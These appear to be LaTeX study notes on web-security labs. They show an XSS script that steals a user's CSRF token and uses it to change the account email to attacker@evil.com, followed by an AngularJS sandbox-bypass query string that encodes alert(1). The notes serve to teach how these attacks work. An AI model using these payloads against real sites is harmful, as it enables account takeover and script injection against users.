 \documentclass{article}
\begin{document}
\begin{itemize}
\item \textbf{The Attack Flow}

\subitem \textbf{Step 1: Steal the CSRF Token}
\begin{lstlisting}[frame=single]
// Fetch user's account page
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();

// Extract CSRF token from HTML
function handleResponse() {
var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
\end{lstlisting}

\subitem \textbf{Step 2: Use Token to Change Email}
\begin{lstlisting}[frame=single]
// Make authorized request with stolen token
var changeReq = new XMLHttpRequest();
changeReq.open('post', '/my-account/change-email', true);
changeReq.send('csrf='+token+'&email=attacker@evil.com')
};
</script>
\end{lstlisting}


\item \textbf{Why This Works}

\subitem \textbf{CSRF Protection Bypass}
\begin{itemize}
\item \textbf{Normal CSRF Protection}: Stops cross-site requests without token
\item \textbf{XSS Bypass}: Script runs in same origin $\rightarrow$ can read token from page
\item \textbf{Result}: Malicious request appears legitimate
\end{itemize}

\item \textbf{Remember}
CSRF tokens protect against cross-site requests, but XSS can steal them to make authorized malicious requests from the same site.\\
\rule{15cm}{0.4pt}

\vspace{.25cm}

\item \textbf{\Large Complex Sandbox Bypass Example:}

\begin{lstlisting}[frame=single]
/?search=1&toString().constructor.prototype.charAt=[].join;[1]|orderBy:
toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
\end{lstlisting}

\subsection*{Payload Breakdown}


\end{itemize}
\end{document}
